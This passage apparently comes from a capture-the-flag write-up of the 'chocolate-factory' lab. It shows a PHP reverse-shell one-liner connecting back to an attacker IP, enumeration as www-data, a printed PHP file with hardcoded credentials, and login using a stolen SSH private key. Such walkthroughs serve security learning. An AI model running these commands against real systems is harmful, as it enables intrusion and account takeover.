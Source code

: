 `php -r '$sock=fsockopen("10.6.46.150",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`

Which gives me shell as `www-data`




#### 6. Enumeration

As `www-data` I typed `sudo -l` but he has no special permissions, however there are plenty of files in `/Var/www/html`:

```
www-data@chocolate-factory:/var/www/html$ ls -al
ls -al
total 1152
drwxr-xr-x 2 root    root       4096 Oct  6 16:50 .
drwxr-xr-x 3 root    root       4096 Sep 29 17:27 ..
-rw------- 1 root    root      12288 Oct  1 05:53 .swp
-rw-rw-r-- 1 charlie charley   65719 Sep 30 08:45 home.jpg
-rw-rw-r-- 1 charlie charley     695 Sep 30 08:45 home.php
-rw-rw-r-- 1 charlie charley 1060347 Sep 30 08:32 image.png
-rw-rw-r-- 1 charlie charley    1466 Oct  1 08:35 index.html
-rw-rw-r-- 1 charlie charley     273 Sep 29 17:21 index.php.bak
-rw-r--r-- 1 charlie charley    8496 Sep 30 09:29 key_rev_key
-rw-rw-r-- 1 charlie charley     303 Sep 30 08:46 validate.php
```

`validate.php` seems to be interesting so I `cat` it and we have a second flag:

```
www-data@chocolate-factory:/var/www/html$ cat validate.php
cat validate.php
<?php
	$uname=$_POST['uname'];
	$password=$_POST['password'];
	if($uname=="charlie" && $password=="cn7824"){
		echo "<script>window.location='home.php'</script>";
	}
	else{
		echo "<script>alert('Incorrect Credentials');</script>";
		echo "<script>window.location='index.html'</script>";
	}
?>www-data@chocolate-factory:/var/www/html$ 
```


#### 7. Switching to `charlie`


In /home/charlie there are two files teleport / teleport.pub which turn out to be private and public ssh key. 
I copy both to my local machine, name as id_rsa  (private) id_rsa.pub (public) and also give permissions `chmod 600`

Afterwards, having charlie's ssh keys, I can login successfully as him to the machine:

`sudo ssh -i id_rsa charlie@10.10.242.241`
